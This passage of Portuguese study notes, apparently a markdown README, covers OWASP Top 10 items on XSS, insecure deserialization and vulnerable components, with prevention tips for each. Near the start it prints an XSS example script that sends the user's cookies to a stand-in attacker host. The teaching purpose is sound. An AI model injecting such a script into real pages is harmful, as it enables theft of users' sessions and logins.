 ele pode injetar código JS no HTML, assim: 

    <script>document.location=https://site-do-atacante.com?foo=document.coockie</script>
  
  dessa forma pegando os todos os coockies do usuário, pegando sessions de logins etc

## Como se prevenir: 
  - use tecnologias q previnem esse ataque, como Ruby On Rails, React.js, ASP.NET, JSP, PHP

  - habilitar CSP (Content-Security-Policy)

## A8 - Insecure Deserialization

Deserialization é o processo de converter ``JSON``/``XML``/``String`` etc em um objeto do meu sistema

esse ataque é bem parecido com A1 e A4, pois por meio de ``JSON``/``XML``/``String``, fazemos um injection de código que executa algo, e no momento da deserialization, muda o comportamento da aplicação

adulterando dados, modificando informações e salvando no banco de uma forma que não deveria

## Como se prevenir: 
  - não aceitar objetos serializados de fontes q você não confia

  - implementando checagem de integridade dos dados

  - isolar e rodar código de deserialization em ambientes com baixo privilégio quando possível

  - logar todas as falhas e exceptions de deserialization, pois pode ser um ataque

  - restringir e monitorar dados entrando e saindo dos servidores que deserializam
  
    pra poder ver, se processo de deserialization que antes devolvia 4 bytes, agora está retornando 1MB, tem algo de estranho!

## A9 - Using Components with Known Vulnerabilities 
  - não saber as versões de todos componentes que você usa, tanto no front quanto no back, e todos os serviços, DB, fila etc

  - usar tecnologias que possuem vulnerabilidades, ou estão sem suporte, ou desatualizado, abandonado (OS/web/application server/database)

  - não fazer SCAN do software, para ver se há vulnerabilidades, e não tem relatórios de segurança sobre os componentes que você usa

  - não atualiza os frameworks, linguagens e dependências que utiliza baseado em riscos

  - configurações mal feitas de segurança (veja A6)
  
## Como se prevenir: 
  - remover dependências desnecessárias, documentos, arquivos, componentes desnecessários 

  - monitorar continuamente serviços como CVE e NVD para saber sobre vulnerabilidades, se inscrever em alertas de email sobre segurança 
